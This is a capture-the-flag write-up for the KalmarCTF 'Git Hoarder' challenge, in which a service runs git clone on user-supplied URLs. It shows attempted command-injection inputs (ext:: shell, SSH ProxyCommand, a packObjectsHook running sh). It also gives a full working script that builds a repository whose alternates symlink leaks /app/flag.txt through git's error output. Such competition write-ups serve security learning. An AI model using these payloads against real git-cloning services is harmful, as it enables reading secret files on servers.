


# Writeup: Git Hoarder (KalmarCTF - Misc)
Here is the ctftime link to KalmarCTF 2026 https://ctftime.org/event/2983



**Challenge Description:** "I love hoarding git repos - especially yours."
**Provided Files:** `clone.py`, `compose.yml`, `Dockerfile`, `flag.txt`

## 1. Vulnerability Analysis

Looking at the provided `clone.py` source code:
```python
import subprocess
git_url = input('Git url to clone > ')
subprocess.run(["git", "clone", git_url], capture_output=False)
```
The vulnerability lies in how `git clone` processes user-supplied URLs. Because `subprocess.run` passes the input as exactly one argument (with `shell=False`), standard bash injection (`;`, `&&`) is impossible. We must exploit Git's internal URL parsing and cloning mechanisms to achieve either Remote Code Execution (RCE) or an Information Leak.

Furthermore, analyzing the `Dockerfile` and `compose.yml` reveals the environment constraints:
* The server runs on `archlinux:latest` with the latest version of Git.
* Connections are handled via `socat` with the `fork` option, executing the script in the `/tmp` directory. 
* `socat` returns `stderr` directly to the user, allowing us to read error messages.
* The server retains files in `/tmp` across multiple connections because the container doesn't reset after each `socat` fork.

## 2. The Roadblocks

To exploit this, I initially attempted standard Argument/Command injection techniques against `git clone`, but the challenge author anticipated them:

1.  **The `ext::` Protocol:** Attempted to use `ext::sh -c cat%20/app/flag.txt>&2` to force Git to execute a shell command. 
    * *Failure:* `fatal: transport 'ext' not allowed`. Modern Git disables the `ext` protocol by default to prevent CVE-2015-7545.
2.  **SSH ProxyCommand Injection:** Attempted to inject SSH arguments via `ssh://git@127.0.0.1%20-oProxyCommand=...`.
    * *Failure:* `error: cannot run ssh: No such file or directory`. The Docker container does not have `openssh` installed.
3.  **Local RCE via `uploadpack`:** I built a malicious bare repository with a custom `.git/config` containing `packObjectsHook = sh -c "cat /app/flag.txt >&2"`. I cloned this "Trojan Horse" to the server in Connection 1, and triggered it in Connection 2. 
    * *Failure:* While the clone was successful, the RCE did not trigger. Git developers have patched this vector; modern Git ignores the `uploadpack.packObjectsHook` in local configurations to prevent malicious repository execution.

## 3. The Final Strategy: Alternates Symlink Leak

Since RCE was effectively killed, the intended path was an **Information Leak**. 

Git has a feature called the Alternate Object Database (`objects/info/alternates`). When Git tries to resolve objects, it reads the paths inside this `alternates` file. If a path is invalid or points to something that isn't a Git object, Git throws a fatal error and prints the content of the file it tried to read.

By creating a symlink from `objects/info/alternates` pointing directly to `/app/flag.txt` on the server, we can force Git to read the flag, treat the flag's text as a directory path, and crash, printing the flag in the error message via `stderr`.

## 4. Building the Exploit

Working from my Kali Linux machine, I needed to build the malicious repository locally and host it so the remote server could fetch it.

**Step 1: Build the Payload Repository**
I used the following bash script to construct the payload, ensuring I avoided `already exists` and `empty repository` errors encountered during testing:

```bash
# 1. Initialize the outer repository
mkdir build_repo && cd build_repo
git init

# 2. Create the inner payload repository (requires a commit)
mkdir dummy && cd dummy
git init
echo "CTF" > a.txt
git add a.txt
git commit -m "a"
git config core.bare true
cd ..

# 3. Rename to avoid conflicts on the server
mv dummy/.git flag_reader
rm -rf dummy

# 4. Inject the Symlink to the flag
rm -rf flag_reader/objects/[0-9a-f][0-9a-f]
mkdir -p flag_reader/objects/info
ln -s /app/flag.txt flag_reader/objects/info/alternates

# 5. Commit the payload into the outer repo
git add flag_reader
git commit -m "symlink payload"
cd ..

# 6. Create a bare clone for HTTP hosting
git clone --bare build_repo final_leak.git
cd final_leak.git
git update-server-info
cd ..

# 7. Host the repository
python3 -m http.server 8000
```

**Step 2: Expose the Local Server to the Internet**
Since the CTF server is remote, I used an SSH tunnel to expose my local port 8000:
```bash
ssh -R 80:localhost:8000 localhost.run
```
This provided a public URL: `https://de8453d0ee6596.lhr.life`

## 5. The Kill Chain

With the payload hosted, I connected to the challenge instance twice.

**Connection 1: Planting the Trojan Horse**
I instructed the server to clone my malicious repository over the internet.
```bash
$ ncat --ssl 8zl2rofyj2y3rxfo46sa.d3.chal-kalmarc.tf 1337
Git url to clone > [https://de8453d0ee6596.lhr.life/final_leak.git](https://de8453d0ee6596.lhr.life/final_leak.git)
Cloning into 'final_leak'...
Done cloning!
```

**Connection 2: Triggering the Leak**
I connected again and instructed the server to locally clone the malicious directory it just downloaded. This forced Git to parse the symlinked `alternates` file.
```bash
$ ncat --ssl 8zl2rofyj2y3rxfo46sa.d3.chal-kalmarc.tf 1337
Git url to clone > /tmp/final_leak/flag_reader
Cloning into 'flag_reader'...
error: object directory /tmp/final_leak/flag_reader/objects/kalmar{h0ard3d_t0o_muCh_e965349c} does not exist; check .git/objects/info/alternates
fatal: symlink 'info/alternates' exists, refusing to clone with --local
Done cloning!
```


**Flag Captured:** `kalmar{h0ard3d_t0o_muCh_e965349c}`